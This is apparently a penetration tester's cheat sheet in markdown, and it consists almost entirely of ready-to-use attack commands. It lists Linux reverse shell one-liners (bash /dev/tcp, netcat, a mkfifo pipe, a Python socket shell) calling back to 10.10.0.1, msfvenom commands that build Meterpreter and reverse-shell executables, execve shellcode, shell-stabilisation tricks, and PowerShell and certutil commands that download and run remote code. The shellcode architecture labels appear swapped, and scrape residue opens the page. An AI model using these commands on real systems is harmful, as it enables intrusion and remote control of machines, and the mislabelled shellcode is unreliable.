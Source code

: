 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Reverse Shell Generator</a><br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">PayloadsAllTheThings Cheatsheet <3</a>
```bash
bash -i >& /dev/tcp/10.10.0.1/777 0>&1
nc -e /bin/bash 10.10.0.1 777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 777 \>/tmp/f
python \-c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.0.1",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf

Linux x86 /bin/sh execve
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
Linux x64 /bin/sh execve
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80


```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg

export TERM=xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
powershell.exe -e 
```
<a href="https://raikia.com/tool-powershell-encoder">Powershell Encoder</a>
  
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
